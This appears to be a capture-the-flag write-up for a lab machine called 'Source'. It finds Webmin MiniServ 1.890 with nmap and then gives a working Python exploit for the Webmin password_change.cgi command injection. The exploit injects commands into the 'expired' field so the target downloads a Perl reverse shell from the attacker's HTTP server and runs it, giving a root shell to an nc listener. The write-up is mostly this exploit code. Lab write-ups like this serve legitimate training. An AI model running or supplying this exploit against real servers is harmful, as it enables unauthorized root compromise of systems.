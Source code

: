 # Source

`nmap` found two open ports for us.

> 22 ssh<br>
> 10000 snet-sensor-mgmt MiniServ 1.890 (Webmin httpd)<br>

I went to https://source.thm:10000 and found there:<br>
![webmin](./imgs/webmin.png)

I looked for `MiniServ 1.890 exploit` in google and found a python script, which turned out to work.<br>

Then I changed the script a little bit in order that I understand it and have more control over it.<br>
Also, I found a good perl `reverse-shell`, set up `python3 -m http.server`, set up an `nc -lvnp 2222` and ran my new script.
```
import os

target = "source.thm"
port = "10000"
url = "https://"+target+":"+port+"/password_change.cgi"

rhost = "10.2.116.12"
rport = 2222

command1 = "curl -o perl_shell.pl http://10.2.116.12:8000/perl_shell.pl"
command2 = "perl perl_shell.pl"

header = f'Referer: https://{target}:{port}/session_login.cgi'

payload = f'user=gotroot&pam=&expired=2|echo "";{command1}'
os.system(f"curl -k {url} -d '{payload}' -H '{header}'")

payload = f'user=gotroot&pam=&expired=2|echo "";{command2}'
os.system(f"curl -k {url} -d '{payload}' -H '{header}'")
```
Then
```
python3 my_exp.py
```
And the nc listener will get you a root reverse-shell.
